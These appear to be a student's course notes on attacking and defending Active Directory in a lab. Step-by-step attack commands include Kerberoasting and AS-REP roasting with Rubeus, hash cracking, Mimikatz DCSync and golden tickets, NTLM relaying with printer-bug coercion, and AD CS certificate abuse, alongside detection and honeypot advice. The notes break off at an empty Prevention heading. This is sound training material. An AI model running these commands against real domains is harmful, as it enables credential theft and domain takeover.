



# Windows Attacks & Defence Module

## <u>*Introduction and Terminology*</u>

Active Directory (AD) is a directory service for windows enterprise, released in 2000 with windows server 2000. AD is a distributed, hierarchical structure that allows centralised management of an organisations resources. These resources include users, computers, groups, network devices, GPOs, trusts and more. AD provides authenticated, accounting and authorisation functionalities within a windows environment. It also allows administrators to manage permissions and access to network resources.

AD is the most utilised Identity and Access Management (IAM) solution worldwide. The vast majority of enterprise applications integrate and operate with AD. AD is the most critical service in any organisation and compromise means an adversary has unrestricted access to all systems ad data.

Researchers constantly discover and disclose new vulnerabilities in AD which attackers will most likely exploit with the intention of extorting the organisation with blackmail, sharing company secrets or ransomware.

Microsoft has over 3000 vulnerabilities in the last 3 years, due to this the advice for keeping AD secure is by a comprehensive patch management system to mitigate new vulnerabilities rather than working on preventing all exploits (which would surely produce a system that cannot function properly). In this module we will look at some common attacks against AD and some protections that can be put in place.

### AD Fundamentals

#### *Kerberos Overview*



#### *Authentication*

Authentication in windows environments can be done through Username/Password stored and transmitted as password hashes (LM, NTLM, NetNTLMv1, NetNTLMv2). Alternatively, you can authenticate through Kerberos tickets, acting as a trusted third party which works with the DC to provide access to services. Finally you can authenticate over LDAP.

All logon types except type 3 "network logon", will leave a credentials on the system authenticated and connected to. This is useful because how a user logged in to a machine may be relevant to if we believe it to be malicious or not.

#### *LDAP*

To communicate with DCs we must use the LDAP protocol. Microsoft realised that LDAP was not a pleasant language to write and so they released graphical tools to make the lives of system administrators easier. Microsoft developed the Remote Server Administration Tools (RSAT) which allow users to interact with AD locally on the DC or remotely from another computer. The most popular tools are AD Users and Groups which allows for viewing, moving, editing and creating objects such as users, groups and computers as well as Group Management Policy which allows for the creation and modification of GPOs.

There are some important network ports in windows enterprise environments that you should remember:

| Port         | Service  |
| ------------ | -------- |
| 53           | DNS      |
| 88           | Kerberos |
| 137-139, 445 | SMB      |
| 389, 636     | LDAP     |
| 3389         | RDP      |
| 5985, 5986   | WinRM    |

#### *AD in the Real-World*

Every organisation that has ever attempted to increase its maturity will have at some point gone through exercises to classify its systems. This classification will define the importance of each system to the business - in an AD environment every new role, service or feature will need to be classified to give us an idea of what escalation risk exists if it gets compromised. In this view, every service that potentially offers escalation to DC should be treated in the same way as with the actual DC.

Unfortunately in the real world AD has security weaknesses that are somewhat unavoidable so we need to work out how to minimise risk.

- AD systems are complex so it can be confusing to work out what privileges an individual user actually has. This can make it harder to apply the principle of least privileges.

- AD systems are designed to manage machines remotely via GPOs. GPOs are stored in unique network share called SYSVOL where all domain-joined devices pull their settings from. The devices generally do this using the standard protocol for accessing network shares, SMB, which is known to generally not be secure enough for something as critical as an AD environment.

- AD systems can often contain legacy systems as they get phased out of business operations. These pose a huge attack vector since windows is not secure by default.

### How does this Module Work?

In this module we will look at several different attacks. For each one the aim is to:

1. Describe the attack

2. Walkthrough of carrying out the attack

3. Provide prevention techniques

4. Discuss detection capabilities

5. Discuss 'honeypotting' if applicable

Throughout the module we assume that an attacker has already gained some RCE capabilities on a the windows 10 machine WS001. The user that is compromised is Bob, who has no special permissions. The environment consists of the following machines:

- DC1: 172.16.18.3

- DC2: 172.16.18.4

- Server01: 172.16.18.10

- PKI: 172.16.18.15

- WS001: DHCP or 172.16.18.25

- Kali: DHCP or 172.16.18.20

On the HTB VPN, we can access WS001 and/or the Kali machine directly. We have the following credentials:

- [WS001] bob:Slavi123

- [DC1] htb-student:HTB_@cademy_stdnt!

- [Kali] kali:kali 


## <u>*Kerberoasting*</u>

### Description

In AD, a service principle name (SPN) is a unique service instance identifier. Kerberos uses SPNs for authentication to associate a service instance with a service logon account which allows a client application to request the service authenticate an account even if the client does not have the account name. When a Kerberos TGS service ticket is asked for, it gets encrypted with the service account's NTLM password hash.

Kerberoasting is a post-exploitation attack that attempts to exploit this behaviour by obtaining a ticket and performing offline password cracking to open the ticket. If the ticket opens then the candidate password that opened the ticket is the service account's password. Another factor that has some impact is the encryption algorithm used when the ticket is created with the likely options being:

- AES

- RC4

- DES (found in much older environments)

There is a significant difference in the cracking speed between the three so best practice is to disable RC4 and DES. The only caveat with this is that not all applications will support it. In theory the KDC will choose to make the ticket with the most robust/highest encryption algorithm however attackers can force a downgrade to a lower encryption.


### Attack Path

To obtain crackable tickets we can use the hacking tool Rubeus. When we run the tool with the kerberoast action without specifying a user, it will extract tickets for every user that has an SPN registered. This can be a lot of users in large environments.

```powershell
.\Rubeus.exe kerberoast /outfile:spn.txt
```

We then need to move this extracted file to a device where we can crack the SPN hashes. We can use hashcat with hash mode 13100 for cracking Kerberoastable TGS. We need to pass in a dictionary file and save the cracked hashes to an output file:

```bash
hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt"
```

Once hashcat finished cracking we can read the password in plaintext. We could also crack the TGS hashes with John The Ripper:

```bash
sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot
```

### Prevention

The success of this attack depends almost entirely on the strength of the service account's password. We should limit the number of accounts with SPNs and disable those no longer used. Ideally the service account passwords should be 100+ random characters. We can also implement what is known as Group Managed Service Accounts (GMSA) which is a particular type of service account that is automatically managed by AD. These accounts are bound to a specific server and no user can use them anywhere else. AD will automatically rotate these passwords and set them to random values. The drawback of these accounts is that not all applications support them and they mainly work with Microsoft services. However we should use them everywhere we can. Do not assign SPNs to accounts that do not need them.

### Detection

When a TGS is requested an event log with ID 4769 is generated. However AD also generates the same ID whenever a user attempts to connect to a service so relying on this alone is virtually impossible to use as a detection method. We can use the encryption method however to search for suspicious behaviour: for example if we see a ticket requested with RC4 encryption when that is not the default configuration. We can also alert on the number of tickets generated by a user in a given time frame.

### Honeypotting

A honeypot user is a good detection option to configure in an AD environment. This is a use with no real use in the environment so service tickets should not be generated. in this case, any attempt to generate a service ticket for this account is likely malicious. Make sure that the password is strong enough that it can't be cracked to reduce your risk.


## <u>*AS-REProasting*</u>

### Description

The AS-REProasting attack is similar to the Kerberoasting attack. We specifically are looking for user accounts that have the property "Do not require Kerberos preauthentication" enabled.



### Attack Path

Once again we can use Rubeus, this time with the asperoast action.

```powershell
.\Rubeus.exe asreproast /outfile:asrep.txt
```

We can move the file back to the attacking machine and then we need to edit the hash for hashcat to recognise it. we need to add `23$` after `$krb5asrep$`. We can now use hashcat with mode 18200 to crack the hash:

```bash
sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt -outfile asrepcrack.txt --force
```

### Prevention

We should ensure we only use the Do not require preauth option if needed. Good practice is to review accounts regularly to see if they still need this property. User accounts with this property are generally easier to crack because the passwords are much weaker, so users who have this property should be forced to have a separate password policy.

### Detection

When we executed Rubeus, an event with ID 4768 was generated signalling to us that a Kerberos Authentication ticket was granted. Similar to 4769, this event is abundant so we should try to correlate known god logins against potential malicious ones. We should also looked at the Pre-Authentication Type field and look for the value 0 signalling preauth was not required. Similar to kerberoasting we can also look for 0x17 (RC4) ticket encryption.

### Honeypot

Honeypotting for asperoasting might be counterproductive as if it is the only user with that preauth not set then it might signal to an attacker that it is a honeypot user. Still it is beneficial against less advanced "opportunistic" attackers.


## <u>*GPP Passwords*</u>

### Description

SYSVOL is a network share on all DCs that contains logon scripts, group policy data and other domain-wide data. AD stores all group policies in `\<DOMAIN>\SYSVOL\<DOMAIN>\Policies`. When it was released with server 2008, Group Policy Preferences introduced the ability to store and used credentials in several scenarios, which AD stores in the policies directory. During an engagement we might encounter scheduled tasks and scripts that are executed under a particular user and contain an encrypted version of their password. The encryption key that AD uses to encrypt XML policy files is the same for all AD environments and has been released on Microsoft docs, allowing for decryption of these passwords. Anyone can decrypt these credentials because the SYSVOL folder is accessible t all authenticated users in the domain. The encryption key is:

```
4e 99 06 e8    fc b6 6c c9    fa f4 93 10    62 0f fe e8
f4 96 e8 06    cc 05 79 90    20 9b 09 a4    33 b6 6c 1b    
```

### Attack

We can use the `Get-GPPPassword` function from powersploit to automatically parse all XML files in the Policies folder looking for the cpassword property and then decrypting it using the key.

```powershell
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

### Prevention

After the encryption key was made public, Microsoft released a patch in 2014 to prevent caching credentials in GPP. In theory GPP should no longer store passwords, however there are many examples of AD environments that still do cache credentials because AD environments are very complex and have lots of moving parts. It is recommended to continuously assess the environment. The patch also does not clear existing credentials.

### Detection

The script automatically parses all XML files, so we can set up an alert to trigger whenever a dummy file is accessed since there should be no reason for this policy to be touched otherwise (we do not associate it with a GPO). The access will generate an event with ID 4663. We can also monitor for logins from one of these accounts (particularly if the cached password is no longer up to date).

### Honeypot

As already mentioned an effective honeypot can be setup here by implementing a new policy that has no reason to be accessed from the share. We can also set up a semi-privileged user with the wrong password to be cached here. This is very useful for us because it not only tells us that an adversary is present on our network, but we can also seethe source IP address which will tell us which device is compromised.


## <u>*GPO Permissions/GPO Files*</u>

### Description

A Group Policy Object (GPO) is a virtual collection of policy settings with a unique name. GPOs are the most widely used configuration management tool in AD. Each GPO contains a collection of zero or more policy settings. They are linked to an OU in the AD structure for their settings to be applied to objects in the OU or any child OU. GPOs can be restricted to which objects they apply be specifying the AD group or a WMI filter.

When a new GPO is created only Domain admins and similar privileged role can modify it. However within environments we will encounter different delegations that allow less privileged accounts to perform edits on GPOs which is where the problem lies. Many organisations have GPOs that can modify authenticated users or domain users which entails that any compromised user will allow the attackers to alter the GPOs. Modifications can include additions of start-up scripts or a scheduled task to execute a file. This access can allow an adversary to compromise all computer objects.

### Attack Path

This is easy - it is a simple GPO edit or file replacement.

### Prevention

One way to prevent this attack is to lock down the GPO permissions to be modified by a particular group of users or only by a specific account. Never deploy files stored in network locations that many users can edit or modify the permissions on.

### Detection

It is straightforward to detect when a GPO is modified. If directory service changes auditing is enabled then an event will be generated with ID 5136. If a user who is not expected to have the right to modify a GPO appears in these events then an alert should be raised.

### Honeypot

It is generally inadvised to form a honeypot with a misconfigured GPO. This is because future vulnerabilities could make this trap become the weakest point of the network.


## <u>*Credentials in Shares*</u>

### Description

Possibly the most commonly encountered misconfiguration in AD environments are exposed credentials in network shares. We will often find credentials in network shares within scripts and configuration files. In contrast, credentials on a user's local machine will most commonly be found in excel or word documents. Credentials on network shares generally pose a higher risk as they can be accessible by every user.

### Attack Path

The first step to finding exposed credentials is knowing where to look. We need to identify what shares exist in the domain, and we can use PowerView's Invoke-ShareFinder for this. The following command filters out default shares and will only display shares the user has at least read access to:

```powershell
Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess
```

This command might take a long time to run since in large environments the number of open network shares can be huge. There are tools that can automate collecting files and picking up on keywords in these network shares but for this lab we will use a more manual approach. 

```powershell
cd \\Server01.eagle.local\dev$
findstr /m /s /i "pass" *.bat
findstr /m /s /i "pass" *.cmd
findstr /m /s /i "pass" *.ini
findstr /m /s /i "pass" *.conf*
findstr /m /s /i "eagle" *.ps1
```

Note that recently, repeatedly running findstr with the same arguments has been picked up by windows defender as suspicious behaviour.

### Prevention

The best way to prevent these attacks is to lock down the shares in the domain so that there are no loose permissions. We should also make use of automated tools to check for passwords regularly.

### Detection

Detecting such an attack relies heavily on knowing what is standard behaviour for a user. We could at user logins, where they originate from and what account is being used to compare against expected behaviour (for example if the time is unusual or the workstation used is not the appropriate one). We can look for event IDs 4624/4625/4768. We can also look for network share connections which could tip us off to an automated scanning tool being used.

### Honeypot

This attack can be honey-potted in the same way as some of the others - by intentionally leaking a user with a wrong password and then looking for logins from this user. A good setup for this account could be a service account.


## <u>*Credentials in Object Properties*</u>

### Description

Objects in AD have many different properties. For example a user object could contain the properties:

- Account active?

- Account expiry date

- Last password change

- Account name

- Office location for user

When administrators create accounts they will fill in these properties. Historically, administrators used to put the users initial password in the description or info property of the account. Every domain user can read these properties so if the system admin is old fashioned or the user is bad at changing their password then this can be an easy win for attackers.

### Attack Path

A simple powershell script can check the entire domain for specific search terms in the Description or info fields or you can run a command to list out all users.

```powershell
Function SearchUserClearTextInformation
{
    Param (
        [Parameter(Mandatory=$true)]
        [Array] $Terms,

        [Parameter(Mandatory=$false)]
        [String] $Domain
    )

    if ([string]::IsNullOrEmpty($Domain)) {
        $dc = (Get-ADDomain).RIDMaster
    } else {
        $dc = (Get-ADDomain $Domain).RIDMaster
    }

    $list = @()

    foreach ($t in $Terms)
    {
        $list += "(`$_.Description -like `"*$t*`")"
        $list += "(`$_.Info -like `"*$t*`")"
    }

    Get-ADUser -Filter * -Server $dc -Properties Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet |
        Where { Invoke-Expression ($list -join ' -OR ') } | 
        Select SamAccountName,Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet | 
        fl
}
```

[UserDescriptionCredentialSearch.ps1](</home/tommy/Downloads/HTB/Academy/CDSA/Windows Attacks/UserDescriptionCredentialSearch.ps1>)

```powershell
SearchUserClearTextInformation -Terms ""
```

### Prevention

The best prevention method for an attack like this is to educate users and system administrators. You can also enforce a password policy that requires changing password. Continuously scan for exposed passwords and aim to automate the user creation process so it is entirely uniform between users.

### Detection

The only real way to detect exposed credential misuse is to monitor for suspicious logins. It can be difficult to differentiate these from normal logins so we have to use some contextual information to help us such as the login location and the login time.

### Honeypot

Adding fake credentials to the properties of users is a great low-risk honeypot technique. As long as we make the setup believable it is likely that this will be targeted for an attack. The only factor to be aware of would be to consider making this fake account a service account so that it is less likely that a legitimate user attempts a login because they have forgotten their password.


## <u>*DCSync*</u>

### Description

A DCSync is an attack that is used to impersonate a DC and then perform replication with a targeted DC to extract password hashes. The attack can be performed either by a user or a computer provided they have the permissions:

- Replicating Directory Changes

- Replicating Directory Changes All

### Attack Path

To showcase the DCSync attack we will use the account Rocky:Slavi123 who has the required permissions. We need to get a command shell running as Rocky:

```batch
runas /user:eagle\rocky cmd.exe
```

We can use Mimikatz to perform the actual DCSync. We run it by specifying the username of the user whose password hash we wish to obtain if the attack is successful.

```batch
mimikatz.exe
lsadump::dcsync /domain:eagle.local /user:Administrator
```

It is also possible to specify `/all` to dump every hash. We can either crack this hash or use it to perform a pass-the-hash attack.

### Prevention

DCSync abuses a common operation in AD environments so preventing DCSync altogether is not possible. We can use third party tools such as RPC Firewall to block or allow specific RPC calls.

### Detection

Detecting DCSync attacks is easy because the replication process generates a unique event with ID 4662. We should always monitor these events for anything suspicious. We can whitelist systems/accounts that will replicate often to avoid getting false positive alerts.

 

## <u>*Golden Ticket Attack*</u>

### Description

The Kerberos golden ticket is an attack in which attackers can create or generate tickets for any user in the domain, essentially acting as a domain controller. When a domain is created the user account krbtgt is created. This account is disabled and cannot be deleted, renamed or enabled. The KDC uses the password of this account to create a key that it uses to sign all kerberos tickets. Any user that has access to the password hash of krbtgt can create valid kerberos tickets and because they are signed they are considered valid tickets. The golden ticket attack can allow us to escalate rights from any child domain to the parent domain - the domain is not a security boundary. This attack can also provide elevated persistence in the domain.

### Attack Path

To perform a golden ticket attack we use Mimikatz. We have to provide Mimikatz with:

- `/domain:<The domain name>`

- `/sid:<The domain SID>`

- `/rc4:<krbtgt hash`

- `/user:<The user for which the ticket is issued>`

- `/id:<Relative ID for the user being issued>`

Additionally we should set settings for `/renewmax` and `/endin` because the default settings can be easy to detect by EDRs. The first step is to obtain the password hash of the krbtgt account and the SID of the domain. One way we could get the hash is by performing a DCSync attack with a user with the appropriate privileges:

```batch
lsadump::dcsync /domain:eagle.local /user:krbtgt
```

We can use PowerView to obtain the SID value.

```powershell
. .\PowerView.ps1
Get-DomainSID
```

Now that we have all of the information we need we can use Mimikatz to create the ticket. We can use`/ptt` to pass the ticket into the current session:

```batch
kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt
```

We can verify that the ticket was generated by running the following command in the shell:

```batch
klist
```

### Prevention

Preventing forged tickets is difficult since signing the tickets makes them valid to the domain. Some things we could consider doing to make the process as painful as possible for an attacker:

- Disable local administrator accounts and only allow privileged users to log into certain devices.

- Periodically reset the krbtgt password. You can use the KrbtgtKeys.ps1 script from Microsoft to make this easier and reduce the chance of conflicts across the domain

- Enforce SIDHistory filtering to prevent escalation from child domains.

Note that if the AD has been compromised then we need to reset all passwords and revoke all certificates. We must reset the password for krbtgt twice in every domain since the account's password history is 2.

### Detection

Detecting is difficult but we can use standard behavioural analysis (such as logon time and location). In particular we can enforce that Administrators only login on Privileged Access Workstations (PAWs) and we can alert on high privilege users not logging in to these machines. If we have SID Filtering enabled then we will get alerts with event ID 4675 during cross-domain escalation.


## <u>*Kerberos Constrained Delegation*</u>

### Description

Kerberos Delegation allows an application to access resources on a different server. There are three types of delegation we can set in AD:

- Unconstrained Delegation (The most permissive)

- Constrained Delegation

- Resource-based Delegation

Any type of delegation is a possible security risk and we should avoid using it unless necessary. In constrained delegation, a user account will have its properties configured to specify which services they can delegate. For resource-based delegation, the configuration is within the computer that the delegation occurs in. It is uncommon to see resource-based delegation in enterprise networks.



### Attack Path

We will demonstrate the abuse of constrained delegation; when an account is trusted for delegation, the account sends a request to the KDC stating "Give me a ticket for user X because I am trusted to delegate this user for service Y", and a ticket is generated for user Y (without supplying it's password). It is possible to delegate to another service even if it is not configured in the settings - we could do this for example with protocol transition.

Lets assume the user web_service:Slavi123 is trusted for delegation and has been compromised. We can use the Get-NetUser function from PowerView the enumerate use accounts that are trusted for delegation in the domain.

```powershell
Get-NetUser -TrustedToAuth
```

We should see that the web_service user is configured for delegating the HTTP service to the domain controller DC1. This service provides the ability to execute Powershell remoting. Therefore and threat actor with control over web_service can request a Kerberos ticket and use it to connect to DC1.

Using Rubeus to request a ticket requires a password hash be provided as opposed to cleartext so we need to convert it first:

```powershell
.\Rubeus.exe hash /password:Slavi123
```

```powershell
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
```

```batch
klist
```

Now with this ticket we can connect to the Domain Controller impersonating the Administrator account:

```powershell
Enter-PSSession dc1
```

We may need purge the tickets and obtain new ones or request tickets for multiple services.

### Prevention

When designing Kerberos delegation, Microsoft implemented several protection mechanisms but did not enable them by default. The best way we can prevent this attack is by configuring the "Account is sensitive and cannot be delegated" property for all privileged users. Additionally, we should treat any account with delegation as extremely privileged.

### Detection

On some occasions, a successful login attempt with a delegated ticket will contain information about the issuer under the transited services attribute in the event log. This attribute should be populated if the logon resulted from an S4U (service for user) logon process.


## <u>*Print Spooler & NTLM Relaying*</u>

### Description

The print spooler is an old service enabled by default. The service has become a popular attack vector since 2018 when PrinterBug was found: Functions can be abused to force remote connections that are able to carry authentication information such as a TGT. Any domain user can coerce a remove server to authenticate to any machine. The impact of this is that any DC with print spooler enabled can be compromised in a variety of ways:

- The connection can be relayed to another DC and a DCSync attack can occur.

- The DC can be forced to connect to a machine configured for unconstrained delegation.

- The connection can be relayed to Active Directory Certificate Services to obtain a certificate for the DC which can then be presented on-demand to impersonate the DC.

- The connection can be relayed to configure resource based kerberos delegation. We can then use this to authenticate as any administrator to that machine.

### Attack Path

We will showcase the first attack path, performing a DCSync. To do this we need SMB signing to be turned off on the domain controller. To begin we configure NTLMRelayx to forward any connections to DC2:

```bash
impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
```

Next we need to trigger PrinterBug, to trigger the connection we will use the Dementor tool:

```bash
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
```

If we switch back to our ntlmrelayx terminal session, we should see that the DCSync was successful.

### Prevention

Print Spooler should be disabled on all servers that are not printing servers. Privileged servers and domain controllers should never have additional roles/functionalities beyond what they need to operate. You can also change the registry key `RegisterSpoolerRemoteRpcEndPoint` to block incoming connections.

### Detection

Most of the logs left by a PrinterBug exploit are too generic to detect anything, however when performing a DCSync we should see a logon event for DC1 which will originate from the attackers machine and not the domain controller. Since the DC's IP address should be static this should cause an alert.

### Honeypot

It is generally inadvised to honeypot on PrinterBug in-case new exploits are found, however a mature organisation could block outbound connections on SMB ports (when possible) which means that if an attacker attempts a PrinterBug exploit the firewall will stop it connecting back to their machine.


## <u>*Coercing Attacks & Unconstrained Delegation*</u>

### Description

Coercing attacks have become a one-stop shop for escalating privileges from any user to Domain Administrator. Nearly every organisation with a default AD infrastructure is vulnerable. We have just looked at one example with PrinterBug, however several other RPC functions can achieve the same result. the coercer tool was developed to exploit all known vulnerable RPC functions. Similar to with PrinterBug there are several follow up options as to what to actually exploit.

### Attack Path

We will abuse the second "follow-up" option, assuming that an attacker has gained administrative rights on a server configured for Unconstrained delegation. To identify systems configured for Unconstrained Delegation we use the `Get-NetComputer` function from powerview:

```powershell
Get-NetComputer -Unconstrained | select samaccountname
```

From an administrative account we can start Rubeus and monitor for new logons and extract TGTs:

```powershell
.\Rubeus.exe monitor /interval:1
```

We now need to IP address of the compromised host. Finally we can use that attacker machine to execute coercer towards DC1, where we force it to connect to WS001 if successful.

```bash
Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
```

Now if we switch back to WS001 and look at the output of Rubeus we should see a TGT for DC1. We can use this TGT for authentication. From here a DCSync is an obvious attack. We can use the TGT through Rubeus by running:

```powershell
.\Rubeus.exe ptt /ticket:<ticket>
```

Then a DCSync attack can be executed through Mimikatz.

### Prevention

Windows does not offer control over RPC calls to allow discovering and block certain functions. We can either implement a third party RPC firewall or we can block domain controllers from connecting over SMB, however we have to be careful not to block normal functions.

### Detection

A specialised RPC firewall is the best way to detect abuse of these functions. Firewall logs are our best chance for looking for suspicious connections.


## <u>*Object ACLs*</u>

### Description

In AD environments, ACLs are lists or tables that define the trustees who have access to a specific object and their access type. A trustee may be any security principal such as a user account, group or login session. Each ACL has a set of access control entries (ACEs). An object ca be accessed by multiple trustees because there can be multiple ACEs. ACLs are also used for auditing purposes, such as recording the number of access attempts to a securable object. An example of an ACE is that AD gives domain admin the right to modify the password of every objects. In large organisations, it is virtually impossible to avoid non-privileged users ending up with delegated rights.

### Attack Path

To identify potential abusable ACLs, we will use BloodHound to graph the relationships between objects and SharpHound to scan the environment and pass All to the collection method parameter:

```powershell
.\SharpHound.exe -c All
```

The generated zip file can be imported and visualised in BloodHound. We will focus on looking at escalation paths for our initial bob user. Bob has full rights over the user anni and the computer Server01. With this Bob can:

- Modify the object anni by specifying a bonus SPN value and then kerberoast it. Bob can change anni's password and log in as that account, thereby inheriting all rights anni has.

- Bob can hunt for local administrator passwords on Server01 or abuse Resource-based Kerberos Delegation.

We can also use the script ADACLScanner to create reports of discretionary access control lists and system access control lists (DACLs and SACLs)

### Prevention

There are three main things we can do to help prevent these attacks:

- Continuously scan our own environment using similar tools.

- Educate employees.

- Automate the user creation process.

### Detection

We have several ways to detect if AD objects are modified, however these do not provide a great deal of visibility over what was changed. We can look for event ID 4738 - "A user account was changed". If a password is reset then we have event ID 4724. We can consult with IT to see if these changes are legitimate.

### Honeypot

We can honeypot ACLs fairly effectively. We can either assign high ACLs to a fake user we have already set up as a honeypot or we could have an account that everyone can modify but nobody has any reason to, in this case we can alert against modifications to this account.


## <u>*PKI -ESC1*</u>

### Description

Active directory certificate services (AD CS) has become a very popular attack vector. This is because:

- Using certificates for authentication has more advantages than username/password pairs.

- Most PKI servers are vulnerable to at least one attack.

There are many advantages to compromising the certificate authority (CA):

- User and machine certificates are valid for 1+ years

- Resetting a users password does not invalidate the certificate

- Misconfigured templates can allow for obtaining a certificate for any user

The specific attack we are going to look at is ESC1 which is defined as: "Domain Escalation via No Issuance Requirements + Enrollable Client Authentication/Smart Card Logon OID templates + CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT". Really rolls of the tongue.

### Attack Path

To begin we will use Certify to scan the environment for vulnerabilities:

```powershell
.\Certify.exe find /vulnerable
```

To abuse to vulnerable certificate template found we use certify and pass the request argument alongside the name of the vulnerable template:

```powershell
.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator
```

We then need to convert the certificate to the correct format:

```bash
sed -i 's/\s\s\+/\n/g' cert.pem
```

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Finally we can use Rubeus to request a kerberos ticket for the associated account:

```powershell
.\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt
```

### Alternative Attack - ESC8

We begin by configuring NTLMRelayx to forward incoming connections to the HTTP endpoint of our CA. As part of this configuration we specify we want to obtain a certificate for the DC. The `--adcs` switch makes NTLMRelayx parse and display the certificate if one is received:

```bash
impacket-ntlmrelayx -t http://172.16.18.15/certsrv/default.asp --template DomainController -smb2support --adcs
```

Now as before we need to get the DC to connect to us. We can use the PrinterBug to force a connection to us.

```bash
python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123
```

We can copy the base64 encoded certificate and switch to the compromised windows machine. We can use Rubeus to authenticate and obtain a TGT:

```powershell
.\Rubeus.exe asktgt /user:DC2$ /ptt /certificate:<cert>
```

We can now trigger a DCSync attack.

### Prevention

